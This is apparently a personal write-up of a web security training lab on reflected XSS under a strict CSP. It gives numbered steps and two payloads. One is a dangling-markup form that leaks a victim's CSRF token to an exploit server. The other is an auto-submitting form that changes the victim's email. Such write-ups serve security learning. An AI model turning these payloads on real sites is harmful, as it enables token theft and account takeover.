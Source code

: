 # LAB: Reflected XSS protected by very strict CSP, with dangling markup attack

## Objective:

- steal the csrf token of vicim user.
- Use the csrf token of victim to change its email to hacker@evil-user.net

## Key Concepts:

- CSRF tokens
- Dangling markup

## Steps Taken:

1. Login with the provided credentials.
2. View page source of the update email form for any csrf tokens.
3. Change the value of email field using query parameters.
4. Prepare a form payload with dangling markup.
5. Make sure that the form included the hidden csrf token input field innside
   it.
6. Use the exploit server URL in the action attribute of the payload form.
7. Append the payload in the lab URL next to ?email= query and remove the id
   query from payload which is there by default.
8. Copy the payload and deliver the exploit to the victim with the URL as the
   location within script tags.
9. Check the exploit server logs and find the csrf token of the victim which can
   be identified by the IP which is other then your machine IP.
10. Prepare a second payload which will be a simple html page with a form that
    will be redirected to the lab URL followed by the email update endpoint.
11. add the input fields in the html form, both will be hidden. One with the
    email that the lab wants us to change the victim email to, and the other
    will be csrf input field with the value of the victim csrf token that we got
    from the exploit server logs from the previous exploit delivered to the
    victim.
12. Submit the form automatically through the javascript, as soon as the page is
    loaded.
13. Deliver the exploit to the victim using the exploit server and than a
    simulated user is supposed to be visiting the site and his email will be
    changed to the one that we had provided in te 2nd payload's email field
    value.

## Payloads Used:

<!--

----------Payload 1----------

"></form>
<form
  class="login_form"
  name="myform"
  method="get"
  action="https://exploit-0a0b0026048e5f7a806202ce016a00e9.exploit-server.net/exploit"
>
  <button class="button" type="submit">Click</button

-->

<!--

----------Payload 2----------

<html>
  <body>
    <form
      action="https://0a7c00c804525f5180a7034800a300c4.web-security-academy.net/my-account/change-email"
      method="post"
    >
      <input type="hidden" name="email" value="hacker@evil-user.net" />
      <input
        type="hidden"
        name="csrf"
        value="tqjq7kVoT9KYE0ovK4FNYfFTpnJ4srVp"
      />
    </form>
  </body>
  <script>
    document.forms[0].submit();
  </script>
</html>

-->

## Issues Encountered:

- Did not knew if we can change the email field value URL email query value.
- Faced difficulty understanding the information provided in lab description and
  what actually lab needs us to do.

## Solutions/Workarounds:

- Viewed some walkthroughs, cam to know about that we can initiate the exploit
  by reflective XSS on update email field.

## Takeaways:

- For any input field, try changing its value with query parameters if its
  reflected as a DOM source.
- First, focus on getting the csrf token of victim.
- Then create exploit to deliver to victim, which will be a phishing site,
- Submit a hidden form from victim's browser with his csrf token to update his
  email.
